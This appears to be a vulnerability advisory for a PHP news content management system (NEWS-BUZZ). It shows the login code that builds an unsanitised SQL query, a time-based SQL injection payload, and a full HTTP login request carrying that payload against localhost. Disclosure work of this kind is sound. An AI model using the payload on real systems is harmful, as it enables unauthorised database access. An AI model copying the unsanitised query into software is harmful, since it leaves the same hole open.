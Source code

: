 ## Vulnerability Details:
- **Application Name**: Content Management System
- **Software Link**: [Download Link](https://code-projects.org/content-management-system-in-php-with-source-code-2/)
- **Vendor Homepage**: [Vendor Homepage](https://github.com/anirbandutta9/NEWS-BUZZ)
- **BuG**: Time-Based SQL Injection
- **BUG_Author**: egsec

## About project:
The Content Management System In PHP is a simple project that allows users to post and manage various kinds of news content.

## Vulnerability Description:
- There is a sql injection vulnerability in the login part of the index.php file. It allows an attacker to manipulate the SQL query and potentially perform unauthorized actions on the database. 

## Vulnerable Code Section:
```php
$query = "SELECT * FROM users WHERE username = '$username'";
$result = mysqli_query($conn, $query) or die(mysqli_error($conn));
```
- In this line, the `$username` variable is directly embedded into the SQL query without proper handling. This allows an attacker to inject malicious SQL code.

## Proof of Concept (PoC):
- Location: `http://localhost/NEWS-BUZZ/index.php`
- Time-Based SQL Injection Payload: `' OR sleep(10)#`
- Poc Video : [Video Link](https://youtu.be/ObW-S05rYVI)
- request
```python
POST /NEWS-BUZZ/login.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 69
Origin: http://localhost
Connection: close
Referer: http://localhost/NEWS-BUZZ/index.php
Cookie: PHPSESSID=456n0gcbd6d09ecem39lrh3nu9
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

user_name=admin%27+or+sleep%2810%29%23&user_password=adminpass&login=
```
- The response will come called time by using `sleep()` function.

## Impact:
- In a time-based SQL injection attack, an attacker manipulates SQL queries to measure response times and infer information based on delays. This type of attack is useful when the application doesn’t return direct errors or output that can be used to assess query behavior.
An attacker can use time-based SQL injection to extract the contents of a database.
